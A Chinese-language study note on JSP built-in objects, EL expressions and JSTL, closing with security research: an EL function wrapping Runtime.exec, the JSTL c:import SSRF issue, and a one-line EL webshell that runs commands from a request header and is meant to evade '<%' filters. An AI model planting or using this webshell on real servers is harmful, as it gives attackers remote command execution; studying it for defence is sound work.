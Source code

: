 前置基础
---

### 内置对象
```
1、request：表示⼀次请求，HttpServletRequest
2、response：表示⼀次响应，HttpServletResponse
3、pageContext：⻚⾯上下⽂，获取⻚⾯信息，PageContext
4、session：表示⼀次会话，保存⽤户信息，HttpSession
5、application：表示当前 Web 应⽤，全局对象，保存所有⽤户共享信息，ServletContext
6、config：当前 JSP 对应的 Servlet 的 ServletConfig 对象，获取当前 Servlet 的信息
7、out：向浏览器输出数据，JspWriter
8、page：当前 JSP 对应的 Servlet 对象，Servlet
9、exception：表示 JSP ⻚⾯发⽣的异常，Exception
```

### response.getRequestDispatcher 和 response.sendRedirect 的区别
```
getRequestDispatcher 是将同⼀个请求传给下⼀个⻚⾯
sendRedirect         是创建⼀个新的请求传给下⼀个⻚⾯，之前的请求结束⽣命周期
```


### JSP EL
**简介**

Expression Language 简称EL，是Java中的一种特殊的通用编程语言，借鉴于JavaScript和XPath。主要作用是在Java Web应用程序嵌入到网页（如JSP）中，用以访问页面的上下文以及不同作用域中的对象 ，取得对象属性的值，或执行简单的运算或判断操作。
EL获取到某个数据时，会自动进行数据类型的转换。

**pom.xml**
> Tomcat 默认携带el-api.jar
```xml
<dependency>  
    <groupId>javax.el</groupId>  
    <artifactId>javax.el-api</artifactId>  
    <version>2.2.4</version>  
    <scope>provided</scope>  
</dependency>  
```
**常用语法**
```
${EL表达式}
```
获取pageContext对象
```java
${pageContext}
```
![image](https://user-images.githubusercontent.com/55024146/159130650-1d803e4d-1fec-474b-89fd-39a1f68f0e17.png)

**EL表达式调用java方法**

1）新建类并定义静态方法

至于为什么得是静态方法？

![image](https://user-images.githubusercontent.com/55024146/159131463-0f8965ba-3d37-4ec3-8713-a757f56ee415.png)


```java
package com.lab;

import java.io.IOException;

public class ELTest {
   public static String Exec(String cmd) throws IOException {
      return Runtime.getRuntime().exec(cmd).toString();
   }
}

```
2）在WEB-INF文件夹下（除lib和classess目录外）新建tld文件
```xml
<?xml version="1.0" encoding="UTF-8"?>
<taglib version="2.0" xmlns="http://java.sun.com/xml/ns/j2ee"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-jsptaglibrary_2_0.xsd">
    <tlib-version>1.0</tlib-version>
    <short-name>ELTest</short-name>
    <uri>http://10.10.10.1:8080/ELTest</uri>
    <function>
        <name>Exec</name>
        <function-class>com.lab.ELTest</function-class>
        <function-signature> java.lang.String Exec(java.lang.String)</function-signature>
    </function>
</taglib>
```
3）jsp头部导入
```jsp
<%@ taglib prefix="ELTest" uri="http://10.10.10.1:8080/ELTest" %>
```
4）el标签使用
```jsp
${ELTest:Exec("calc")}
```

测试效果

![image](https://user-images.githubusercontent.com/55024146/159131518-e5d5324e-b6cb-4c94-b1c7-1794f3cd49a8.png)

### JSTL
**简介**

JSP Standard Tag Library JSP 标准标签库，JSP 为开发者提供的⼀系列的标签，使⽤这些标签可以完成
⼀些逻辑处理，⽐如循环遍历集合，让代码更加简洁，不再出现 JSP 脚本穿插的情况。
实际开发中 EL 和 JSTL 结合起来使⽤，JSTL 侧重于逻辑处理，EL 负责展示数据。


导⼊ JSTL 标签库
```
<%@ taglib prefix="c" uri="http://java.sun.com/jsp/jstl/core"%>
```


**安全问题-SSRF漏洞**

<c:import>标签提供了所有<jsp:include>行为标签所具有的功能，同时也允许包含绝对URL。

实际案例
- [蓝凌OA前台SSRF+dataxml.jsp RCE漏洞](https://422926799.github.io/posts/980cff8b.html)

![image](https://user-images.githubusercontent.com/55024146/159132587-8ded391a-604e-43a2-87c9-d5696b506df8.png)


利用研究
---

### JSP + EL构造 Webshell（规避 <%）

![image](https://user-images.githubusercontent.com/55024146/179147020-e4ce602e-640b-44ab-a431-2056677474b3.png)

`el.jsp`

```
${Runtime.getRuntime().exec(header.cmd)}
```
测试效果

![image](https://user-images.githubusercontent.com/55024146/179147643-956c3938-e89f-4368-b8cd-c54021aad5e3.png)










